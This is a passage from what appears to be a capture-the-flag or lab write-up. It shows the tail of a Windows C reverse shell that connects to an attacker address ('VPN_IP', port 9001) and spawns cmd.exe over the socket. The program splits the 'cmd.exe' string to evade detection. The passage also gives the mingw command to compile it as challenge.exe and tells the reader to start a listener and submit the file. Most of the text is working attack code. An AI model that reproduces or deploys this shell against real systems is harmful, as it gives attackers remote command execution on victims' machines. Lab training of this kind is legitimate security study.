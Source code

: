 ```c
    }

    // 3. Spawn cmd.exe over the socket
    char p1[5] = "cm";
    char p2[6] = "d.exe";
    char cmd[10];
    strcpy(cmd, p1);
    strcat(cmd, p2);

    STARTUPINFOA sinfo = { sizeof(sinfo) };
    PROCESS_INFORMATION pinfo;
    sinfo.dwFlags      = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
    sinfo.hStdInput    = sinfo.hStdOutput = sinfo.hStdError = (HANDLE)S0;

    CreateProcessA(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &sinfo, &pinfo);
    WaitForSingleObject(pinfo.hProcess, INFINITE);
    CloseHandle(pinfo.hProcess);
    CloseHandle(pinfo.hThread);

    // 4. Cleanup
    myclosesocket(S0);
    myWSACleanup();
}

int main(int argc, char** argv) {
    if (argc == 3) {
        int port = atoi(argv[2]);
        runn(argv[1], port);
    } else {
        // default back to IP:PORT
        char host[] = "VPN_IP";
        int port   = 9001;
        runn(host, port);
    }
    return 0;
}
```


We need to compile it:

```
x86_64-w64-mingw32-gcc -O2 -static -o challenge.exe challenge.c -lws2_32 -lwsock32
```

Now, we need to set up the listener on our specified port and submit the file:


![[Pasted image 20250521163547.png]]

![[Pasted image 20250521163551.png]]

![[Pasted image 20250521163600.png]]
